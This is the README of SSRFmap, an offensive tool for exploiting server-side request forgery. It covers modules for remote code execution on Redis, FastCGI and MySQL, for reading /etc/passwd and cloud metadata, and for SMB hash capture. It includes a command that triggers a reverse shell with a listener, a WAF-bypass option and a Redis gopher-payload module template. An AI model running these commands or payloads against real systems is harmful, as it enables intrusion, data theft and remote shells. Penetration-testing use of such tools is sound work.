 # SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/)

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zabbix`       | Zabbix RCE |
| `mysql`        | MySQL Command execution |
| `docker`       | Docker Infoleaks via API |
| `smtp`         | SMTP send mail |
| `portscan`     | Scan ports for the host |
| `networkscan`  | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |
| `alibaba`      | Read files from the provider (e.g: meta-data, user-data) |
| `aws`          | Read files from the provider (e.g: meta-data, user-data) |
| `gce`          | Read files from the provider (e.g: meta-data, user-data) |
| `digitalocean` | Read files from the provider (e.g: meta-data, user-data) |
| `socksproxy`   | SOCKS4 Proxy |
| `smbhash`      | Force an SMB authentication via a UNC Path |
| `tomcat`       | Bruteforce attack against Tomcat Manager |


## Install and Manual

Basic install from the Github repository.

```powershell
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap/
pip3 install -r requirements.txt
python3 ssrfmap.py

usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [-l HANDLER]
                  [--lhost LHOST] [--lport LPORT] [--uagent USERAGENT]
                  [--ssl [SSL]] [--level [LEVEL]]

optional arguments:
  -h, --help          show this help message and exit
  -r REQFILE          SSRF Request file
  -p PARAM            SSRF Parameter to target
  -m MODULES          SSRF Modules to enable
  -l HANDLER          Start an handler for a reverse shell
  --lhost LHOST       LHOST reverse shell
  --lport LPORT       LPORT reverse shell
  --uagent USERAGENT  User Agent to use
  --ssl [SSL]         Use HTTPS without verification
  --level [LEVEL]     Level of test to perform (1-5, default: 1)
```

## SSRFmap - Basic use

First you need a request with a parameter to fuzz, Burp requests works well with SSRFmap. 
They should look like the following. More examples are available in the **/data** folder.

```powershell
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```

Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```powershell
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r data/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify LHOST and LPORT. Also SSRFmap can listen for the incoming reverse shell.

```powershell
# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```powershell
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

## SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Contribute

I :heart: pull requests :)
Feel free to add any feature listed below or a new service.

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- [ttffdd](https://github.com/ttffdd)

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [SSRF testing - cujanovic](https://github.com/cujanovic/SSRF-Testing)
